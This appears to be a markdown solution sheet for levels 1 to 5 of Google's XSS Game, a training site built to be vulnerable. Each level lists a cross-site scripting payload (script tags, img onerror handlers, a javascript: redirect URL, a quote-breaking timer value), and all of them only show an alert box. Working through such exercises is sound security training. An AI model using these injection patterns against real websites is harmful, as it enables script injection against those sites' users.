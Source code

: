 # XSS-Game by Google

### Level 1
```
https://xss-game.appspot.com/level1/frame?query=<script>alert("HACKED")</script>
```

### Level 2
```
<img src="asdf" onerror='alert("HACKED")'/>
```

### Level 3
```
https://xss-game.appspot.com/level3/frame/#"/><img src='asdf' onerror='alert("HACKED")'/>
```

### Level 4
```
'**alert("HACKED"));//
?timer=%27**alert%28%22HACKED%22%29%29%3B%2F%2F
```

### Level 5
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
```
